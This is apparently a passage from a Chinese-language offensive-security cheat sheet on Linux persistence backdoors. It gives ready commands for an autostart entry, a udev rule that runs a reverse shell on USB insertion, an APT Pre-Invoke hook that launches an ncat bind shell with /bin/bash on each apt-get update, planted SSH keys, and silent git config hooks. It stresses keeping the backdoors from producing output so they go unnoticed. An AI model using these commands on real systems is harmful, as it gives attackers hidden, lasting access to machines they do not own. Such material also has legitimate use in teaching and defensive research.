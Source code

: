 ## 用户启动文件后门

Linux，在 `~/.config/autostart/NAME_OF_FILE.desktop` 写入一个文件

```powershell
在：~/.config/autostart/*.desktop

[Desktop Entry]
Type=Application
Name=welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## 驱动后门

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## APT 后门

如果你可以在 apt.conf.d 目录中创建一个文件，内容为：`APT::Update::Pre-Invoke {"CMD"};`
下次执行 "apt-get update" 时，你的 CMD 将被执行！

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## SSH 后门

在 `~/.ssh` 文件夹中添加一个 ssh 密钥。

1. `ssh-keygen`
2. 将 `~/.ssh/id_rsa.pub` 的内容写入 `~/.ssh/authorized_keys`
3. 设置正确的权限，~/.ssh 为 700，authorized_keys 为 600

## Git 后门

后门化 git 可以是一种在不需要 root 访问权限的情况下获得持久性的有用方法。  
必须特别注意确保后门命令不产生输出，否则持久性很容易被注意到。

### Git 配置

有多个 [git 配置变量](https://git-scm.com/docs/git-config) 在执行某些操作时会执行任意命令。  
此外，git 配置可以通过多种方式指定，从而提供了额外后门机会。  
配置可以在用户级别（`~/.gitconfig`）设置，也可以在仓库级别（`path/to/repo/.git/config`）设置，有时还可以通过环境变量设置。

`core.editor` 在 git 需要为用户提供编辑器时执行（例如 `git rebase -i`，`git commit --amend`）。  
等效的环境变量是 `GIT_EDITOR`。
